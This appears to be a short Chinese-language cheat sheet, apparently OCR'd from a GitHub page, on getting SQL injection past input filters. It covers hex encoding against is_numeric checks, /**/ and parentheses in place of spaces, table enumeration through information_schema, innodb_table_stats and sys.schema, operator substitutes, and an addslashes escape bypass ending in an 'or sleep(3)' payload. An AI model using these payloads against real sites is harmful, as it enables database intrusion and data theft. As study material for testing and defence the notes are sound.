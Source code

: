 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤，orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 select group_concat(table_name）from mysql.innodb_table_stats wheredatabase_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名
通过无列名注入获取表group_concat(某一字段所有值)。
<https://www.cnblogs.com/hello-there/p/12918265.html>

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```
